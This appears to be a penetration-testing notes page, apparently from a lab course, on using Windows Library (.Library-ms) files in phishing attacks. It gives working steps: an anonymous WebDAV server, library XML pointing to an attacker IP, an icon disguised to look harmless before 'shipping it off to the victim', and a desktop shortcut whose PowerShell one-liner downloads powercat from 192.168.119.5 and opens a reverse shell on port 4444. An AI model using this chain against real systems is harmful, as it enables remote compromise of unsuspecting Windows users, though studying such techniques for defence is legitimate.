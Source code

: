 ```yaml
---
description: >-
  Windows Library Files are virtual containers used to connect users with data
  located in remote locations like web services or SMB shares.
---
```


# Windows Library Files

[Windows Library Files](https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries) have a _**.Library-ms**_ extensions and are executed by double clicking on them.





##

## WebDAV

In order to share our malicious Windows Library file to the victim we will create a WebDAV share to host the staged payload.

{% embed url="https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/" %}

### Start WebDAV Server

```bash
──(env)─(kali㉿kali)-[~/web]
└─$ /home/kali/env/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/web/
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Create Windows Library File

We will create a new file on our Windows host and name it "**dog.Library-ms**".

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Right now the icon is a little suspicious, let's change it to something else, like a photo.



## Customizing Library File



### Change Icon

```
<iconReference>imageres.dll, -1003</iconReference>
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Testing & Fixing Serialization&#x20;

We can test to see if it's working by double clicking our "dog" icon on the deskop.&#x20;

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption><p>As we see, our malicious Windows Library works! Listing or WebDAV server!</p></figcaption></figure>



### Re-open Visual Studio Code

We can see if the re-open "dog" that the code has been changed. This happens due to Windows trying to optimize the WebDAV communication with the client. So before we ship it off the the victim we have to make sure that we've fixed it and NOT OPENED it on our end.&#x20;

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

Delete the serialized tag and fix the url tag with:

```
<url>http://192.168.119.2</url>
```





## Create Shortcut

We will create a shortcut on the Desktop. This shortcut will download powercat and open a reverse shell. Add the following by: Right-Click Desktop and select _New_ > _Shortcut._

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```

### Start Web Server

We will create a python web server to serve the powercat script.

```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

